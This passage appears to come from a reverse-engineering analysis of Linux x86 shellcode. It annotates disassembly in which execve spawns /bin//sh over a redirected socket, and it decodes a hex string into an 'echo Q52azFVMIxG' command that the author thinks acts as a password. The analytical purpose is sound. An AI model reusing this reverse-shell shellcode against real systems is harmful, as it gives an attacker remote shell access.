 ```

                            ; argv argument of execve (array of pointers)
0000001E  52                push edx
0000001F  53                push ebx

                            ; ECX is an array of pointers: first value is pointer to "/bin//sh", second one is 0x00000000
00000020  89E1              mov ecx,esp

                            ; ; syscall 0xb (11): execve
00000022  CD80              int 0x80</code></pre><figcaption>After input/output/error is redirected, the shellcode spawn a shell (<code>/bin//sh</code>)</figcaption></figure><pre><code class="language-nasm">00000024  6563686F          arpl [gs:eax+0x6f],bp
00000028  205135            and [ecx+0x35],dl
0000002B  32617A            xor ah,[ecx+0x7a]
0000002E  46                inc esi
0000002F  56                push esi
00000030  4D                dec ebp
00000031  49                dec ecx
00000032  7847              js 0x7b
00000034  0A                db 0x0a</code></pre><p>These last 9 lines aren't Assembly instructions, but a string that's executed by <code>execve</code>:</p><pre><code class="language-bash">echo -n '6563686F20513532617A46564D4978470A' | xxd -r -p

# Output: 
# 'echo Q52azFVMIxG'</code></pre><p>It seems that, after a shell is spawned, it executes the command <code>echo Q52azFVMIxG</code>, whose output is sent to the server socket.</p><p>This may act as a password to connect to the server.</p>